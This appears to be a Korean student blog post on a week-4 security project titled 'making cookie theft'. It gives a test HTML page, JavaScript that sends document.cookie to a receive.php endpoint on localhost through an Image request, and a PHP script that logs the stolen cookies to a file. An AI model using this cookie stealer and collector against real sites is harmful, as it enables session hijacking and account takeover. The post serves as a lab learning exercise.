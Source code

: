 ```yaml
---
layout: single
title:  "4주차 쿠키 탈취 만들기"
categories: project
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1.쿠키 탈취 만들기</span>

<br>

http상태 200 으로 양호하고, user = normaltic 이라는 쿠키를 담고 있습니다. 이 쿠키를 탈취해봅시다.

![image-20240514195031752](/images/2024-05-14-Project6/image-20240514195031752.png)

<br>

## <span style="background:#696969; color:#ffffff">1.1 Cookie Hijacking.html</span>

<br>

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Security Test Page</title>
</head>
<body>
    <h1>Cookie Hijacking 테스트 하기</h1>
    <script src="Cookie Hijacking.js"></script>
</body>
</html>
```

<br>

## <span style="background:#696969; color:#ffffff">1.2 Cookie Hijacking.js</span>

<br>

```javascript
window.onload = function() {			# http요청이 완료되었을때, user=normaltic이라는 쿠키를 설정하고, 서버로 보내기
    document.cookie = "user=normaltic; path=/";
    sendDataToServer();  
}

function sendDataToServer() {			# 탈취할 url중 쿠키는 인코딩하여,이미지 파일을 불러옵니다.
    const cookieData = document.cookie;
    const attackURL = "http://localhost:8080/receive.php?cookie=";
    new Image().src = attackURL + encodeURIComponent(cookieData);
}
```

이미지 파일을 불러오는 이유 :  사실 이미지 파일이 없어서 이미지를 불러오는 건 중요한 게 아닙니다. 하지만 url로 요청하게 되면 동시에 get 방식으로 서버에 쿠키 정보를 넘겨주는 역할을 수행하기 때문에 이미지 파일을 불러오는 것 입니다.

<br>

## <span style="background:#696969; color:#ffffff">1.3 receive.php</span>

<br>

```php
<?php					# 쿠기의 정보를 cookies.txt 에 저장하기.
$cookie = $_GET['cookie'];
file_put_contents('cookies.txt', $cookie . "\n", FILE_APPEND);
					#(파일명, 쿠키정보 .줄바꿈 , 파일 뒤에 정보 계속 추가하기 )
```

![image-20240514203739235](/images/2024-05-14-Project6/image-20240514203739235.png)